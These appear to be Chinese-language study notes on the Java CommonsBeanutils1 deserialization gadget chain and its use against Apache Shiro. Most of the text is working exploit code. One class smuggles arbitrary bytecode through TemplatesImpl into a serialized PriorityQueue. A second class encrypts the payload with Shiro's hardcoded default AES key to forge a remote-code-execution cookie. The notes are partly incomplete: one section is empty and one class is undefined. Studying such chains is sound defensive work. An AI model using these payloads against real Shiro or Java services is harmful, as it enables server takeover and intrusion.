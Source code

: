 ### CommonsBeanutils1

#### 依赖CommonsCollections

* java.util.PriorityQueue#readObject调用org.apache.commons.beanutils.BeanComparator#compare
* org.apache.commons.beanutils.BeanComparator#compare通过 PropertyUtils.getProperty调用队列中两个比较对象的getter获取属性
* TemplatesImpl#getOutputProperties()可以执行任意代码

```java
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
import java.util.PriorityQueue;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.beanutils.BeanComparator;
public class CommonsBeanutils1 {
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static String classFileToBase64(String filepath) throws IOException {
        String classFilePath = filepath;
        String base64String;
        // 读取 class 文件的字节数组
        byte[] classBytes = Files.readAllBytes(Paths.get(classFilePath));

        // 将字节数组转换为 Base64 编码字符串
        base64String= Base64.getEncoder().encodeToString(classBytes);

        return base64String;
    }
    public static void main(String[] args) throws Exception {
        String base64Code = classFileToBase64("C:\\Users\\tlj\\Desktop\\tmp\\java8u66\\CalcExample.class");

        byte[] code =
                Base64.getDecoder().decode(base64Code);
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{
                code
        });
        setFieldValue(obj, "_name", "CalcExample");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        final BeanComparator comparator = new BeanComparator();
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2,
                comparator);
// stub data for replacement later
        queue.add(1);
        queue.add(1);
        setFieldValue(comparator, "property", "outputProperties");
        setFieldValue(queue, "queue", new Object[]{obj, obj});
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();
        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new
                ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}
```

特别指出，在这条利用链中，没有用到CC库中的类，但是注意到BeanComparator的构造函数：

```java
public BeanComparator() {
    this( null );
}

public BeanComparator( String property ) {
    this( property, ComparableComparator.getInstance() );
}

public BeanComparator( String property, Comparator<?> comparator ) {
    setProperty( property );
    if (comparator != null) {
        this.comparator = comparator;
    } else {
        this.comparator = ComparableComparator.getInstance();
    }
}
```

在初始化时，没有指定一个Comparator，则BeanComparator会生成一个默认的Comparator——`org.apache.commons.collections.comparators.ComparableComparator`

所以上述反序列化链是依赖于commons-collections的，所以我们除了要添加CB的依赖，还需要添加CC的依赖。

```xml
<dependency>
            <groupId>commons-beanutils</groupId>
            <artifactId>commons-beanutils</artifactId>
            <version>1.9.2</version>
        </dependency>
 <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.1</version>
        </dependency>
```

#### 不依赖CommonsCollections

根据上面所说，只要给BeanComparator指定一个commons-beanutils中或者JRE中的存在的Comparator即可不依赖其他库，这里举两个例子，`java.util.Collections$ReverseComparator`或者`java.lang.String$CaseInsensitiveComparator`：

```java
// setFieldValue(beanComparator, "comparator", String.CASE_INSENSITIVE_ORDER);
// setFieldValue(beanComparator, "comparator", Collections.reverseOrder());
```

#### 二次反序列化

### CB在Shiro环境下的利用

#### 依赖的问题

在shiro环境下，必有的依赖包是shiro-core、shiro-web、 commons-logging，也就是说不一定会存在commons-beanutils库和commonscollections库。

对于第一个问题，其实可以发现shiro是依赖于commons-beanutils的。

对于第二个问题，前文已经解答过。

#### serialVersionUID不一致的问题

将生成poc的commons-beanutils库版本修改为与shiro一致的1.8.3

#### 利用poc

```java
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
import java.util.PriorityQueue;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.beanutils.BeanComparator;
public class CommonsBeanutils1 {
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static String classFileToBase64(String filepath) throws IOException {
        String classFilePath = filepath;
        String base64String;
        // 读取 class 文件的字节数组
        byte[] classBytes = Files.readAllBytes(Paths.get(classFilePath));

        // 将字节数组转换为 Base64 编码字符串
        base64String= Base64.getEncoder().encodeToString(classBytes);

        return base64String;
    }
    public static void main(String[] args) throws Exception {
        String base64Code = classFileToBase64("C:\\Users\\tlj\\Desktop\\tmp\\java8u66\\CalcExample.class");

        byte[] code =
                Base64.getDecoder().decode(base64Code);
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{
                code
        });
        setFieldValue(obj, "_name", "CalcExample");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        final BeanComparator comparator = new BeanComparator();
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2,
                comparator);
// stub data for replacement later
        queue.add(1);
        queue.add(1);
        setFieldValue(comparator, "property", "outputProperties");
        setFieldValue(queue, "queue", new Object[]{obj, obj});
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();
        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new
                ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}
```

```java
public class Client0 {
    public static void main(String[] args) throws Exception {
        Object objcc6 = new ShiroCB1().getObject();
        byte[] objcc6byte = SerializationUtils.serialize(objcc6);
        AesCipherService aes = new AesCipherService();
        byte[] key =
                java.util.Base64.getDecoder().decode("kPH+bIxk5D2deZiIxcaaaA==");
        ByteSource ciphertext = aes.encrypt(objcc6byte, key);
        System.out.printf(ciphertext.toString());
    }
}
```

